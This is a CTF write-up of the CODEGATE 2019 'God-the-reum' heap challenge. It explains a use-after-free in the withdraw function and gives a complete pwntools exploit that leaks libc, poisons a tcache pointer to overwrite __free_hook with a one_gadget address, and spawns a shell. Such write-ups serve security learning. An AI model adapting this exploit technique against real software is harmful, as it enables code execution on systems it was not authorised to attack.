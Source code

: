 # CODEGATE2019 God-the-reum

```
[*] '/mnt/hgfs/Shared/god-the-reum'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Binary uses glibc 2.27
Binary has a structure below.

```
struct wallet {
  void *addr;
  void *size;
}
```

Below is menu.

```
====== Ethereum wallet service ========
1. Create new wallet
2. Deposit eth
3. Withdraw eth
4. Show all wallets
5. exit
select your choice : 
```

First menu makes a wallet, which is malloc. The addr pointer is allocated by `malloc(0x82)`, and program get input of initial balance of new wallet. Interesting point is that input value is the size of newly allocated chunk and also the data in allocated chunk. That is,

```
printf("how much initial eth? : ", 0LL);
__isoc99_scanf("%llu", &size);
wallet_addr->size = malloc(size);
if ( wallet_addr->size )
  *wallet_addr->size = size;
```

therefore we can freely make chunks that have arbitrary size.

Other menu has nothing special, but in withdraw menu is the size pointer freed if balance after withdraw is zero.
but there's no initializing NULL procedure which means UAF vulnerability.

```
void __cdecl Withdraw_eth(wallet *a1)
{
  __int64 v1; // [rsp+10h] [rbp-10h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("how much you wanna withdraw? : ");
  __isoc99_scanf("%llu", &v1);
  *a1->size -= v1;
  if ( !*a1->size )
    free(a1->size);
  puts("withdraw ok !\n");
}
```

There's a hidden menu, developer.
```
void __cdecl developer(wallet *a1)
{
  dummy();
  puts("this menu is only for developer");
  puts("if you are not developer, please get out");
  sleep(1u);
  printf("new eth : ");
  __isoc99_scanf("%10s", a1->size);
}
```

In fact, we can write arbitrary data with deposit menu. but while deposit menu get input type of number,
 developer menu gets string. It makes more easy to write exploit codes.

Exploit scenario is

1. 적당히 큰 chunk를 할당 후 해제(libc leak)
2. tcache에 들어갈 정도의 chunk 할당 후 해제
3. fd pointer overwrite를 해서 이후 malloc에서 __free_hook을 할당 받음
4. __free_hook에 one_gadget의 주소를 overwrite
5. free 호출

```
from pwn import *


def sla(x, y): return p.sendlineafter(x, y)


def ru(x): return p.recvuntil(x)


def create(size):
    sla('choice : ', str(1))
    sla('eth? : ', str(size))


def deposit(idx, amount):
    sla('choice : ', str(2))
    sla('no : ', str(idx))
    sla('deposit? : ', str(amount))


def withdraw(idx, amount):
    sla('choice : ', str(3))
    sla('no : ', str(idx))
    sla('withdraw? : ', str(amount))


def show():
    sla('choice : ', str(4))


def developer(idx, data):
    sla('choice : ', str(6))
    sla('no : ', str(idx))
    sla('new eth : ', data)


p = process('./god-the-reum', env={'LD_PRELOAD': './libc-2.27.so'})
bin = ELF('./god-the-reum')
libc = ELF('./libc-2.27.so')

free_hook_offset = 0x3ed8e8
one_gadget_offset = 0x4f322  # 0x4f2c5 0x4f322 0x10a38c

# gdb.attach(p, '')

# libc leak
create(0x1000)  # 1
create(0x10)    # 2
withdraw(0, 0x1000)
show()
ru('ballance ')
libc_addr = int(ru('\n')[:-1]) - 0x3ebca0
log.info('Libc Addr: ' + hex(libc_addr))

# tcache
withdraw(1, 0x10)
developer(1, p64(libc_addr + free_hook_offset))
create(0x10)    # 3
create(0x10)    # 4
developer(3, p64(libc_addr + one_gadget_offset))
withdraw(2, 0x10)

p.interactive()
```

